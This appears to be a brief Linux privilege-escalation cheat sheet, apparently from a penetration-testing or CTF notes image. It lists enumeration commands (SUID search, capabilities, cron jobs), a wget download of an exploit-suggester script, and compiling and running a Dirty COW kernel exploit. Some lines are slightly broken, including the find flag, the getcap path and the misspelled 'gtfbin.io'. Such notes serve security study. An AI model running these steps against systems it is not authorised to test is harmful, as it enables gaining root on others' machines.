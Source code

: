 # Check id
id

# check who are you
whoami

# Check all the file you can read
ls -arh
# find suid file
find / -perm -u=\s -type f 2>/dev/null
after saving the suid go through all the lib with gtfbin.io

# capicity
getcap -r 2>/dev/null

# cronjob
# check all the posibble.
crontab -l 
cat /etc/crontab

# kernel exploit
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
chmod +x les.sh

# dirty cow
https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
gcc -pthread cow.c -o cow
./cow
